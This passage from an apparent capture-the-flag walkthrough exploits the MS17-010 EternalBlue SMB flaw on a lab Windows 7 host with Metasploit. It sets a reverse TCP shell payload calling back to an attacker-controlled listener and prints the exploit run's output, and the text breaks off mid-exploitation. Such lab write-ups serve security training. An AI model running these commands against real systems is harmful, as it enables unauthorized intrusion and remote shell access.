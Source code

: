 **Answer:** What is the name of this value? **RHOSTS**

### Step 4: Set the Payload

For this demonstration, we'll use a specific payload that gives us a basic shell, which we'll later upgrade:

```bash
set payload windows/x64/shell/reverse_tcp
set LHOST 10.10.14.15
show options
```

**Output:**
```
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.40      yes       The target host(s)
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target


Payload options (windows/x64/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

### Step 5: Run the Exploit

Launch the exploit against our target:

```bash
run
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445 - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
```